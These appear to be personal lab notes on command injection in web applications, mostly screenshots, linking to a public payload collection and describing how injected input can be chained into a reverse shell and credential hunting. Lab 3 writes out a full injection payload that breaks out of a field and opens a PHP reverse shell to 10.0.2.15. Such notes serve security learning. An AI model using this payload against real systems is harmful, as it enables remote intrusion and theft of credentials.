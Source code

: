Resorce: [Click Me](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

When any input passed is executed as command in shell, it can be used to perform injection attack by payloading the input to some malicious command.
Example:
![f38abb0b8bf3e5dcc8b5d2e8d86318cf.png](../_resources/f38abb0b8bf3e5dcc8b5d2e8d86318cf.png)
Above takes url input and displays result of HTTP request.

***Now, we can tweak this functionality for command injection***
![f4c9cf6fd298d78a158ddcdb2560354e.png](../_resources/f4c9cf6fd298d78a158ddcdb2560354e.png)
This results in output of 'whoami' in last

Terminating curl command so that it can be visible directly.
![5e078b27accf990bed4e3966f8d48b26.png](../_resources/5e078b27accf990bed4e3966f8d48b26.png)

***It can be used to chain other commands like gaining reverse shell, etc.***

PHP Reverse Shell:  [Link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Injecting php reverse shell cmd with input:
![9f882847cc109254b9739607fbbb847c.png](../_resources/9f882847cc109254b9739607fbbb847c.png)

Got reverse shell
![43970ac21556b592d55d274bac1e4156.png](../_resources/43970ac21556b592d55d274bac1e4156.png)
Now, it can be used to look for config files for keys, credentials, privilege excalation, etc
![18017f8e2774eac6a1151be17f501429.png](../_resources/18017f8e2774eac6a1151be17f501429.png)

### Lab2:
![732106090dcc030c1f9764bb21f4fe4c.png](../_resources/732106090dcc030c1f9764bb21f4fe4c.png)
![10cfaa5445efc0485677be1fe1ade068.png](../_resources/10cfaa5445efc0485677be1fe1ade068.png)

### Lab 3:
Normal functionality:
![e6c9752906fc018ec91779ed6a3608df.png](../_resources/e6c9752906fc018ec91779ed6a3608df.png)

**CMD Injection:**
In X Field: `30))}';php -r '$sock=fsockopen("10.0.2.15",4244);exec("/bin/sh -i <&3 >&3 2>&3");';#`
![8954f6f040c9de7e11231763e9da5a40.png](../_resources/8954f6f040c9de7e11231763e9da5a40.png)
![253576eb0f4adcf9e13d9c3876e8c1ca.png](../_resources/253576eb0f4adcf9e13d9c3876e8c1ca.png)